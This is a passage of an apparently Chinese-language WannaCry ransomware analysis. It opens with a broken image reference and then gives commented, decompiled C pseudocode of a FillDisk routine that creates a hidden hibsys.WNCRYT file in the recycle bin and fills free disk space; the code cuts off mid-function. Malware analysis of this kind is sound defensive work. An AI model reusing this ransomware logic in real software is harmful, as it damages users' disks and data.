 值得注意的是，这时文件并没有进行加密，是可以直接通过修改后缀名修复的

#### 6.2.2.2 FillDisk 回收站循环写入

```c
void *__cdecl FillDisk(int Num_3)  {  

hGlobal = (void *)GetDriveTypeW(RootPathName);// 获取磁盘类型  

if ( hGlobal == (void *)DRIVE_FIXED )         // 如果是固定磁盘  

{  

hGlobal = GlobalAlloc(0, 0xA00000u);        // 申请0xA00000大小的固定空间  

hGlobal_1 = hGlobal;  

if ( hGlobal )  

{  

memset(hGlobal, 0x55u, 0xA00000u);        // 将申请的空间全部初始化为5  

FileName = 0;  

memset(&v12, 0, 0x204u);  

v13 = 0;  

DeleteRecycleFile(Num_3, &FileName);      // 删除$RECYCLE的hibsys.WNCRYT文件  

hFile = CreateFileW(&FileName, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, FILE_ATTRIBUTE_HIDDEN, 0);// 在$RECYCLE下创建一个hibsys.WNCRYT 属性为隐藏  

if ( hFile == (HANDLE)-1 )  

{  

hGlobal = GlobalFree(hGlobal_1);        // 创建失败直接释放空间  

}  

else  

{  

MoveFileExW(&FileName, 0, MOVEFILE_DELAY_UNTIL_REBOOT);// 在系统下次重新启动时正式进行移动文件操作  

if ( !dword_1000DD8C )  

{  

LABEL_6:  

if ( GetDiskFreeSpaceExW(             // 获取D盘的剩余空间的大小 确保空间足够  

RootPathName,  

&FreeBytesAvailableToCaller,  

&TotalNumberOfBytes,  

&TotalNumberOfFreeBytes)  

```